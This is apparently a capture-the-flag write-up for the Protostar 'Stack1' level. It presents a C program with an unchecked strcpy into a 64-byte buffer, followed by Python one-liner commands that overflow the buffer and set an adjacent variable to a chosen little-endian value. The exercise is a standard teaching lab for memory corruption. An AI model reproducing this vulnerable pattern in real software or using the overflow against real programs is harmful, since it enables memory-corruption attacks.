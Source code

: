 # Stack1
## Briefing
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints:
1. If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
2. Protostar is little endian
## Source Code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
## Solution
So like Stack0, we have a program vulnerable to a buffer overflow, to change the value of a variable.
However this time instead of feeding out input into the program while it's running, we need to send our data as an argument.
And we also need to overwrite the 'modified' variable to a specific value. (0x61626364)

Ok. so lets start by just overwriting the variable into 'A' characters again.
`./stack1 $(python -c "print('A' * 68)")`
Notice how we are executing the script with $() to essentially be running `./stack1 (INPUT)`

`Try again, you got 0x41414141`

Great, we have overwriten the variable into 0x41414141, 41 is the Ascii code for 'A' in hexadecimal, so the variable is now 'AAAA'
So now we can modify our script to have 64 'A's and then our 0x61626364 value, we can enter this into our script with '\x'
`./stack1 $(python -c "print('A' * 64 + '\x61\x62\x63\x64')")`

Oh this is strange, we our input has gone in backwards!
`Try again, you got 0x64636261`
Well if we look back to our hints, we see, 2. Protostar is little endian
This means that we need to put our input in backwards so then when it is flipped again, to go into the program it is in the correct order, So, lets try it.

`./stack1 $(python -c "print('A' * 64 + '\x64\x63\x62\x61')")`

`you have correctly got the variable to the right value`

Yes! Success.

In future we can use the 'struct' python module to sort out our endian-ness problems. This means we will use an actual script instead of `python -c`
